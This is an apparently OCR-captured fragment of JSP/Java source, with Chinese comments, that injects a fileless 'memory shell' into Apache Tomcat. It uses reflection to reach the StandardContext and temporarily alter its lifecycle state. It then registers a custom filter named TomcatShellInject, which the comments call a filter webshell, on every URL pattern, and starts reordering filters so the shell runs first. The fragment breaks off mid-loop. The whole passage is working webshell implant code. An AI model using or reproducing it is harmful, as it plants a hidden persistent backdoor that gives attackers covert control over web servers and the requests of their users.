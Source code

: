 ```jsp
                        for (; standardContext == null; ) {
                            java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                            contextField.setAccessible(true);
                            Object o = contextField.get(servletContext);
                            if (o instanceof javax.servlet.ServletContext) {
                                servletContext = (javax.servlet.ServletContext) o;
                            } else if (c.isAssignableFrom(o.getClass())) {
                                standardContext = o;
                            }
                        }
                        if (standardContext != null) {
                            //修改状态，要不然添加不了
                            java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                                    .getDeclaredField("state");
                            stateField.setAccessible(true);
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                            //创建一个自定义的Filter马
                            Filter mainfilter = new TomcatShellInject();
                            //添加filter马
                            javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                                    .addFilter(filterName, mainfilter);
                            filterRegistration.setInitParameter("encoding", "utf-8");
                            filterRegistration.setAsyncSupported(false);
                            filterRegistration
                                    .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                            new String[]{"/*"});
                            //状态恢复，要不然服务不可用
                            if (stateField != null) {
                                stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                            }

                            if (standardContext != null) {
                                //生效filter
                                Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                        .getMethod("filterStart");
                                filterStartMethod.setAccessible(true);
                                filterStartMethod.invoke(standardContext, null);

                                Class ccc = null;
                                try {
                                    ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                                } catch (Throwable t){}
                                if (ccc == null) {
                                    try {
                                        ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                                    } catch (Throwable t){}
                                }
                                // 把filter插到第一位

                                Method m = c.getMethod("findFilterMaps");
                                Object[] filterMaps = (Object[]) m.invoke(standardContext);
                                Object[] tmpFilterMaps = new Object[filterMaps.length];
                                int index = 1;
                                for (int i = 0; i < filterMaps.length; i++) {
```